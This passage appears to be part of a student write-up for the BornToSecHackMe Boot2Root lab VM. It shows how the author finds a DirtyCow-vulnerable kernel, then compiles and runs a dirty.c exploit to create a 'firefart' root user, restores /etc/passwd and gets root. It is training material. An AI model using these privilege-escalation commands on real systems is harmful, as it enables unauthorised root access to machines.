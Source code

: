 # Boot2Root -- VacheQuiPue

Starting from `Step 5 - Sanitize`

## Step 5 - Identification
Once we are on the server, we search for potential ways to become root.
After some ID and tests we see that the kernel is vulnerable to the DirtyCow exploit
```
> uname -ra
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```
The exploit exists on Linux Kernel <= 3.19.0-73.8

## Step 6 - VacheQuiPue
We copy the code from `scripts/dirty.c` on the server, compile it and run it:
```
gcc -pthread dirty.c -o dirty -lcrypt
./dirty cpt
```

We wait a little bit, connect as `firefart`, restore the originial `passwd` file and login as root:
```
su firefart
mdp: cpt
mv /tmp/passwd.bak /etc/passwd
su root
```

Et hop, root.

## Sources:
Privilege escalation reference: https://book.hacktricks.xyz/linux-hardening/privilege-escalation
DirtyCow Exploit: https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
DirtyCow Explanation: https://github.com/thaddeuspearson/Understanding_DirtyCOW